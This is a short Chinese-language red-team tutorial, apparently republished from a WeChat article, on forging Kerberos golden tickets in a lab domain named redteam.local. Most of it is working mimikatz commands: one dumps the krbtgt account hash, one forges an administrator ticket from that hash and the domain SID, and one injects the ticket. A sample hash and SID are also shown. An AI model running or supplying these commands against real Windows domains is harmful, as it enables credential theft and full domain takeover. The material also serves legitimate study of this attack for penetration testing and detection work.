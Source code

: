 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/g_ikzzEPD8kBX8BmAdkukQ)

0x01 金票
=======

可以使用 krbtgt 的 NTLM hash 创建作为任何用户的有效 TGT。要伪造黄金票据的前提是知道域的 SID 和 krbtgt 账户的 hash 或者 AES-256 值。

1.1 收集 krbtgt 密码信息
------------------

```
privilege::debuglsadump::lsa /inject /name:krbtgt
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibv6HFgEibXjjPKFXIKduWSAqjhO6cYdPBYtu8qPMPtlmLzyiceW7gEkItJMnLEMCnzBaB9Ikqic9XNQ/640?wx_fmt=png)

得到 krbtgt 的 hash：

```
c73caed3bc6f0a248e51d37b9a8675fa
```

域 sid 值：

```
S-1-5-21-151877218-3666268517-4145415712
```

1.2 金票利用
--------

使用 mimikatz 伪造 kerberos 票证

**生成 gold.kribi**

```
mimikatz "kerberos::golden /domain:redteam.local /sid:S-1-5-21-151877218-3666268517-4145415712/krbtgt:c73caed3bc6f0a248e51d37b9a8675fa /user:administrator/ticket:gold.kirbi"
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibv6HFgEibXjjPKFXIKduWSA3YzVfaqmBV8sXCfIFlb2UTVoUVmw4A5SYickCZMzBkl2735peZyasnw/640?wx_fmt=png)

可以看到没有任何票证。

**导入 gold.kribi**

```
kerberos::ptt C:\Users\jack\Desktop\gold.kirbi
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibv6HFgEibXjjPKFXIKduWSAoCR59jHTPaEbLWxqbJI0S9QVZicrvmd6U5icXuicugYTNgKcNLdHGujDA/640?wx_fmt=png)

成功导入 administrator 票据。

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibv6HFgEibXjjPKFXIKduWSAcfA5bzecdhaBSjlZCXNk37gVy4vSLBInD8ZVW30LSJ0n7TClAFOQKg/640?wx_fmt=png)

可以通过事件管理器查看到是以 administrator 来登录的

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibv6HFgEibXjjPKFXIKduWSAIfqCnRWjp4HzmtcH6uVGe1aAYR1MHlIVnxZASUMwkmvAxmp9nIXNIw/640?wx_fmt=png)
